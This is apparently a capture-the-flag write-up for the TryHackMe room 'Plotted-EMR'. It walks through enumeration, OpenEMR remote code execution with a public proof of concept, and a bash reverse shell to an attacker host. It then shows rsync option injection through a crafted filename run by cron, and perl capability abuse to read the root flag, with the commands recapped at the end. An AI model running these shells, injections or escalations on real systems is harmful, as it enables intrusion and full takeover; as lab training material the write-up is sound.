

# 📝 Writeup – Plotted-EMR (TryHackMe)

---

## TL;DR
Found an exposed web app with OpenEMR site creation + a tuned public exploit to get RCE as `www-data`, abused a cron/rsync job to spawn a `plot_admin` shell, then leveraged a file capability (`fowner` on `perl`) to chmod `/root/root.txt` and read the root flag. Nice mix of app, filesystem and capability abuse.

---

## ENUMERATION
Start with the usual scan:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Focused scan (what I used):

```bash
nmap -p21,22,80,5900,8890 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:


---

### PORT 21 — FTP

Anonymous FTP allowed. I browsed the dirs and found a hint file telling me to check admin — keep that in your head for later.

```bash
ftp <IP>
# anonymous login
ls -la
get <file>
```

Screenshots:



---

### PORT 80 — web & dirbusting

Dirbusting (`ffuf`) found `/admin`, `/shadow`, `/passwd` — each contained base64 blobs. One pointed at a YouTube hint (no direct exploit there). Use ffuf:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ
```

Screenshots:


---

### PORT 5900 — MySQL (odd port)

A MySQL instance was accepting `admin` with no password. It had DB access — useful later to make a site that OpenEMR will use.

```bash
mysql -P5900 -h <IP> -u admin
# SHOW DATABASES; USE mydb; SHOW TABLES; SELECT * FROM users;
```

Screenshot:     


---

### PORT 8890 — OpenEMR portal

Found `/portal` → OpenEMR login and an `/portal/admin.php` using ffuf (which shows the OpenEMR version). There’s a known RCE for that version but it requires a logged-in site user. Good news: there's an option to add new site, we have DB access to create the site for ourselves.
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/portal/FUZZ -e .php,.html
```    
I:

* Created a new site id (`test2`) via admin.php → Config Site (using the DB I had access to).
* Logged in to the new site (`test2`).
* Took the public PoC (searchsploit) and fixed a couple of strings — mostly the site-specific URL and base64 handling — then ran it with a reverse-shell payload.

Screenshots:


Exploit/Reverse shell steps:

```bash
# on attacker:
nc -nvlp <PORT>

# exploit command:
bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'
```

This gave me a `www-data` shell.

---

## EXPLOITATION — www-data → plot_admin (rsync trick)

First flag was in the webroot(/var/www). While poking around I found a cron job in `/etc/crontab` that runs an `rsync -t * plot_admin@127.0.0.1:~/backup` from `/var/www/html/portal/config`. Important notes:

* `rsync -t *` passes all filenames(excluding hidden) in current directory to `rsync`.
* `rsync` accepts `-e <program>` to specify the remote-shell connection program(default ssh). If one of the filenames starts with `-e`, it will be interpreted as an option by `rsync`. We can abuse this by creating a file whose name looks like `-e sh shell.sh` so that `rsync` treats `-e` as its option, `sh` as the remote-shell program with `shell.sh` as its argument. So `shell.sh` ends up being executed locally by that shell — classic argument-injection via filename.
* `sh shell.sh` runs the interpreter sh and gives it shell.sh as the script argument. Because you invoked the interpreter explicitly, you don’t need a shebang(!#/usr/sh) in shell.sh. You also don’t need `chmod +x` — the interpreter will read the file even if it’s not executable.      

Steps I used (run as `www-data` in `/var/www/html/portal/config` — adjust paths if needed):

```bash
# create the malicious filename (the leading -- prevents touch from treating it as option)
touch -- '-e sh shell.sh'
# create the payload (use double quotes outside, single inside to avoid shell break)
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > shell.sh
```

Start listener on attacker and wait for cron/rsync to run and trigger the callback:

```bash
nc -nvlp <PORT>
# wait to receive connection
```

Once cron runs, rsync interprets the injected `-e` option and runs `sh shell.sh`, which executes our reverse shell and gives `plot_admin`.

Screenshot:     


---

## plot_admin → root (capabilities abuse)

`sudo -l` required password for common sudo; no suid binaries to exploit. I looked for file capabilities:

```bash
getcap -r / 2>/dev/null
```

I found `perl` with `fowner` capability (file ownership-related capability). `fowner` allows certain file operations normally requiring ownership; in practice we can use it to change file permissions of files we don't own (including root files). So we can chmod `/root/root.txt` to be readable.

Example (run as `plot_admin`):

```bash
# safe single-quote usage so shell doesn't expand anything
perl -e 'chmod 0777, "/root/root.txt";'
# then:
cat /root/root.txt
```

This prints the root flag.

Screenshots:      


---

## Commands recap (quick)

```bash
# nmap
nmap -p- --min-rate 2000 -vv -T4 <IP>
nmap -p21,22,80,5900,8890 -sC -sV -vv -oN scan.nmap <IP>

# ffuf
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP>/FUZZ -e .php,.html

# mysql
mysql -P5900 -h <IP> -u admin

# exploit OpenEMR (after fixing PoC)
python3 exploit.py "http://<IP>/portal" -u <username> -p <passwd> -c <command>

# on attacker
nc -nvlp <PORT>

# rsync trick (on box, from /var/www/html/portal/config)
touch -- '-e sh shell.sh'
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" > shell.sh

# capability exploit (as plot_admin)
perl -e 'chmod 0777, "/root/root.txt";'
cat /root/root.txt
```

---

## References

* OpenEMR public PoCs (Exploit-DB / GitHub).
* rsync docs (`man rsync`) — `-e` option.
* [Linux capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities) overview & `getcap` usage.

---

## Wrap-up

Plotted-EMR gave a tasty chain: make a site, get RCE, abuse a scheduled rsync with clever filename injection, then leverage capabilities to grab root.

---
